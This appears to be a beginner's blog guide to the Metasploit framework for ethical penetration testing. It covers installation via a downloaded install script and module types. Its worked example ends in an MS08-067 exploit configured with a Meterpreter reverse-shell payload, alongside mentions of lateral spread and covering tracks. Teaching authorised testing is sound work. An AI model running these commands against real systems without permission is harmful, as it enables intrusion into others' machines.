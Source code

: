```yaml
---
layout: post
title: Basic Guide to Metasploit
date: 2024-03-19
categories: ["guide", "metasploit"]
tags: ["metasploit", "cybersecurity", "penetration testing", "ethical hacking", "vulnerability assessment", "security tools"]
og_title: "Metasploit Essentials: A Guide to Ethical Penetration Testing"
og_description: "Master the fundamentals of cybersecurity testing with this in-depth Metasploit guide. Learn ethical hacking techniques, vulnerability assessment, and responsible security exploration."
og_image: "/assets/icons/og-image.png"
og_type: "article"
og_author: "Jim Sines"
---
```

Metasploit is a powerful tool for conducting security assessments and penetration testing. It provides a robust framework for developing and executing exploit code against remote target machines. Moreover, Metasploit is equipped with a vast array of tools that can assist in the exploitation of vulnerabilities and the post-exploitation analysis of systems. This guide aims to provide a comprehensive overview of Metasploit, its core functionalities, and practical applications in ethical hacking contexts.

## Understanding Metasploit

Metasploit is more than just a single tool; it's a complete framework that allows ethical hackers to find, exploit, and validate vulnerabilities. It contains a suite of tools used for tasks ranging from reconnaissance to maintaining access to compromised systems. It's widely used by security professionals and ethical hackers to test the security of systems and applications.

### Key Components of Metasploit

- **msfconsole:** The primary interface to the Metasploit Framework. It provides an all-encompassing environment for launching exploits and managing an engagement.
- **Meterpreter:** A powerful payload that provides a command line interface to interact with a compromised system.
- **Modules:** Metasploit is modular by design, offering various modules like exploits, payloads, post-exploitation modules, and auxiliary modules for different tasks.

## Getting Started with Metasploit

### Installation

Metasploit comes pre-installed on security-focused distributions like Kali Linux. However, it can be installed on most Unix-like operating systems, including Windows under WSL (Windows Subsystem for Linux).

#### On Kali Linux

Metasploit is included out of the box in Kali Linux. Ensure it's up to date using the following commands:

```bash
sudo apt-get update
sudo apt-get upgrade
```

#### On Ubuntu/Debian

For other Linux distributions, you can install Metasploit by first adding its repository and then installing it through the package manager:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

### Basic Usage

To start Metasploit, open your terminal and run:

```bash
msfconsole
```

This command launches the Metasploit console, an interactive shell from which you can execute commands, exploit vulnerabilities, and manage sessions.

## Exploring Metasploit Modules

Metasploit is known for its modular approach, allowing users to pick and choose components as needed. Modules are categorized into several types:

- **Exploits:** Code that takes advantage of a vulnerability in a system or application.
- **Payloads:** Code that runs on a system after an exploit successfully executes. Meterpreter is one of the most sophisticated payloads.
- **Auxiliary:** Additional tools and utilities for reconnaissance, scanning, and fuzzing.
- **Post:** Modules that are used after a successful compromise has been achieved, for actions like privilege escalation, gathering evidence, or covering tracks.

## Conducting a Penetration Test with Metasploit

### Step 1: Reconnaissance

Before exploiting vulnerabilities, you need to know what you're dealing with. Metasploit's auxiliary modules can scan networks and systems to discover open ports, services, and potential vulnerabilities.

Example command to scan a target IP for open ports:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.105
run
```

### Step 2: Choosing and Configuring an Exploit

After identifying potential vulnerabilities, select an appropriate exploit module and configure it with the target's information.

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your Local IP>
exploit
```

### Step 3: Gaining Access

Executing the exploit, if successful, will grant you access to the target system. For example, if using Meterpreter as a payload, you will have a wide range of commands at your disposal for interacting with the system.

### Step 4: Post-Exploitation

With access to the target system, you can now execute post-exploitation modules to gather more information, escalate privileges, or spread to other accessible systems on the network.

## Best Practices and Ethical Considerations

- **Permission:** Never use Metasploit on systems or networks without explicit, written permission from the rightful owner.
- **Ethics:** Use Metasploit ethically and responsibly. The goal of ethical hacking is to improve security, not to cause harm or breach confidentiality.
- **Continuous Learning:** The cybersecurity field is always evolving. Stay informed about new vulnerabilities, exploits, and defensive techniques.

## In The End

Metasploit is an indispensable tool in the arsenal of any security professional. Its power and flexibility in assessing the security posture of systems make it the go-to framework for penetration testers and ethical hackers. This guide has provided a primer to get started with Metasploit, from installation to conducting a basic penetration test. However, the true depth and capabilities of Metasploit can only be appreciated with continuous learning and hands-on practice. Always remember to hack ethically and with permission, using your skills to contribute to the security and safety of the digital world.
